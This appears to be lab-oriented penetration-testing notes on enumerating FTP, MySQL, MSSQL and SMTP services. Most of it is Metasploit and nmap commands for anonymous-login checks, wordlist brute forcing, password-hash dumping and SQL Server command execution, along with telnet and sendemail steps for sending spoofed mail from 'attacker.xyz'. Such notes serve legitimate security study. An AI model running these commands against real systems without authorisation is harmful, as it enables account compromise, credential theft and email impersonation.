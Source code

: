 # Service Enumeration





Without Credentials






With Credentials






















- Network Service Discovery. <https://attack.mitre.org/techniques/T1046/>










## FTP

auxiliary/scanner/ftp/ftp_version

auxiliary/scanner/ftp/anonymous

auxiliary/scanner/ftp/ftp_login # brute force
	set USER_FILE /usr/share/metasploit-framework/data/wordlists/common_users.txt
	set PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
























## MySQL
auxiliary/scanner/mysql/mysql_version
auxiliary/scanner/mysql/mysql_login # brute force
	try root first: set USERNAME root


auxiliary/admin/mysql/mysql_enum # requires credentials!

auxiliary/admin/mysql/mysql_sql
	set SQL [SQL QUERY];
	


auxiliary/scanner/mysql/mysql_schemadump
auxiliary/scanner/mysql/mysql_hashdump



```
use auxiliary/scanner/mysql/mysql_file_enum
set USERNAME root
set PASSWORD twinkle
set RHOSTS 192.76.252.3
set FILE_LIST /usr/share/metasploit-framework/data/wordlists/directory.txt
set VERBOSE true
run
```


```
use auxiliary/scanner/mysql/mysql_writable_dirs
set RHOSTS 192.76.252.3
set USERNAME root
set PASSWORD twinkle
set DIR_LIST /usr/share/metasploit-framework/data/wordlists/directory.txt
run
```




Just try log as `root`: `mysql -h [TARGET] -u root`
`nmap [IP] -sV -p 3306 --script=mysql-empty-password`

### nmap
```
nmap [IP] -sV -p 3306 --script=mysql-info

nmap [IP] -sV -p 3306 --script=mysql-users --script-args="mysqluser='root',mysqlpass=''"
nmap [IP] -sV -p 3306 --script=mysql-databases --script-args="mysqluser='root',mysqlpass=''"
nmap [IP] -sV -p 3306 --script=mysql-variables --script-args="mysqluser='root',mysqlpass=''"
nmap [IP] -sV -p 3306 --script=mysql-dump-hashes --script-args="username='root',password=''"


nmap [IP] -sV -p 3306 --script=mysql-query --script-args="query='select count(*) from books.authors;',username='root',password=''"




# audit
# This is good to run for developers to check wheter they have configured things correctly
nmap [IP] -sV -p 3306 --script=mysql-audit --script-args="mysql-audit.user='root',mysql-audit.password='',mysql-audit.filename='/usr/share/nmap/nselib/data/mysql-cis.audit'"


```











## MSSQL / Microsot SQL Server


auxiliary/scanner/mssql/mssql_login
auxiliary/admin/mssql/mssql_enum
auxiliary/admin/mssql/mssql_enum_sql_logins
auxiliary/admin/mssql/mssql_exec


nmap [IP] -p 1433 --script ms-sql-info
nmap [IP] -p 1433 --script ms-sql-ntlm-info --script-args mssql.instance-port=1433
nmap [IP] -p 1433 --script ms-sql-brute --script-args userdb=/[path to file],passdb=[path to pass file]






















## SMTP
auxiliary/scanner/smtp/smtp_version
auxiliary/scanner/smtp/smtp_enum # user enumeration


```
# What is the SMTP server name and banner
nmap -sV -script banner [IP]

# 1 Connect to SMTP service using netcat and retrieve the hostname of the server (domain name)
nc [IP] 25

# 2 Does user “admin” exist on the server machine?
VRFY admin@[DOMAIN]

# What commands can be used to check the supported commands/capabilities? Connect to SMTP service using telnet and check

telnet [IP]
HELO attacker.xyz
EHLO attacker.xyz



# How many of the common usernames present in the dictionary /usr/share/commix/src/txt/usernames.txt exist on the server. Use smtp-user-enum tool for this task
smtp-user-enum -U /usr/share/commix/src/txt/usernames.txt -t [IP]


# How many common usernames present in the dictionary /usr/share/metasploit-framework/data/wordlists/unix_users.txt exist on the server. Use suitable metasploit module for this task

use auxiliary/scanner/smtp/smtp_enum
set RHOSTS [IP]
exploit

```



### Connect to SMTP service using telnet and send a fake mail to root user
(Note: There is a dot(.) in the last line which indicates the termination of data)

```
telnet [IP] 25
HELO attacker.xyz
mail from: admin@attacker.xyz
rcpt to:root@openmailbox.xyz
data
Subject: Hi Root
Hello,
This is a fake mail sent using telnet command.
From,
Admin
.
```


### Send a fake mail to root user using sendemail command
```
sendemail -f admin@attacker.xyz -t root@openmailbox.xyz -s 192.26.29.3 -u Fakemail -m "Hi root, a fake from admin" -o tls=no


```


See:
- Postfix (http://www.postfix.org/)
- smtp-user-enum (https://tools.kali.org/information-gathering/smtp-user-enum)
- sendmail (http://www.postfix.org/sendmail.1.html)
- Metasploit Module: SMTP User Enumeration Utility https://www.rapid7.com/db/modules/auxiliary/scanner/smtp/smtp_enum



















